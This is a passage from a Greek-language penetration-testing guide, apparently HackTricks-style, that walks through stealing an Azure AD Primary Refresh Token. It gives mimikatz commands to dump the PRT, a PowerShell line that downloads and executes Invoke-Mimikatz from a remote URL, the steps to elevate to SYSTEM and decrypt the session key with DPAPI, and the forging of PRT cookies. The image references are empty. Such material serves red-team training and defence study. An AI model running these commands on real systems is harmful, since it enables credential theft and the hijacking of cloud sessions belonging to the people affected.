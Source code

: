 You can use **mimikatz** to extract the PRT:
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
(Images from https://blog.netwrix.com/2023/05/13/pass-the-prt-overview)

<figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

**Αντιγράψτε** το μέρος που είναι επισημασμένο **Prt** και αποθηκεύστε το.\
Εξαγάγετε επίσης το κλειδί συνεδρίας (το **`KeyValue`** του πεδίου **`ProofOfPossesionKey`**) το οποίο μπορείτε να δείτε επισημασμένο παρακάτω. Αυτό είναι κρυπτογραφημένο και θα χρειαστεί να χρησιμοποιήσουμε τα DPAPI masterkeys μας για να το αποκρυπτογραφήσουμε.

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Εάν δεν βλέπετε κανένα δεδομένο PRT, μπορεί να είναι ότι **δεν έχετε κανένα PRT** επειδή η συσκευή σας δεν είναι συνδεδεμένη στο Azure AD ή μπορεί να τρέχετε **παλιά έκδοση** των Windows 10.
{% endhint %}

Για να **αποκρυπτογραφήσετε** το κλειδί συνεδρίας, πρέπει να **ανυψώσετε** τα δικαιώματά σας σε **SYSTEM** για να εκτελείστε υπό το πλαίσιο του υπολογιστή ώστε να μπορείτε να χρησιμοποιήσετε το **DPAPI masterkey για να το αποκρυπτογραφήσετε**. Μπορείτε να χρησιμοποιήσετε τις παρακάτω εντολές για να το κάνετε αυτό:
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

#### Επιλογή 1 - Πλήρης Mimikatz

* Τώρα θέλετε να αντιγράψετε και την τιμή Context:

<figure><img src="../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

* Και την τιμή του παραγόμενου κλειδιού:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

* Τέλος, μπορείτε να χρησιμοποιήσετε όλες αυτές τις πληροφορίες για να **δημιουργήσετε PRT cookies**:
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
<figure><img src="../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>
